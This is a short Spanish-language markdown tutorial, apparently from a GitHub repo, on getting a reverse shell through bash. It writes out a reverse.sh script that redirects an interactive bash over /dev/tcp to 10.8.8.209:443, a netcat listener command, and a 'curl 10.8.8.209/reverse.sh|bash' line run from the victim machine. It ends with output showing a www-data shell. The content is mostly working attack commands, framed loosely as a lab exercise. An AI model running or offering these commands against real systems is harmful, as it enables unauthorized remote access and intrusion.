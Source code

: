 # Conexiones Reversas
### _Conexion reversa con bash_ | Reverse connection with bash
____
Para crear una conexion reversa, en este caso, utilizaremos bin bash, por lo que se deben seguir los siguientes pasas

 #### 1. Script bash 
```bat
       │ File: reverse.sh
───────┼─────────────────────────────────────────────────────────────────────────────────────────
   1   │ #/bin/bash
   2   │ bash -i >& /dev/tcp/10.8.8.209/443 0>&1
───────┴─────────────────────────────────────────────────────────────────────────────────────────
```
>*_Nota_*: En caso de no estar logueado con el usuario root, ejecutar con el comando sudo, para elevar privilegios, para validar que esta funcionando el servidor web podemos hacer una petición por el explorador a la ruta http://localhost:80/

#### 2. Levantar servicio netcat

Para ejecutar una shell reversa vamos a crear la comunicación utilizando el servicio de netcat o **_nc_**, para los amigos, y abrir un puerto de comunicación para poner en escucha. 
>```bat
>root$nc -nlvp 443
>listening on [any] 443 ...
>```
#### 3. Ejecutar la comunicación desde el equipo víctima.
Para hacer la carga del LFI, para este ejercicio supondremos,  que esta petinición se puede hacer desde el equipo victima, y para descar el archivo reverse.sh utilizaremos un servidor web para obtener el LFI.
>```bat
>/usr/bin/curl 10.8.8.209/reverse.sh|bash
>```
#### 4. Resultado.

Si el proceso se realizó correctamente, podemos verificar la conexion en el siguiente resultado en la tercera línea.

>```bat
>root$nc -nlvp 443
>listening on [any] 443 ...
>connect to [10.8.8.209] from (UNKNOWN) [10.10.252.152] 49562  
>www-data@ip-10-10-252-152:/var/www/html$ 
>```
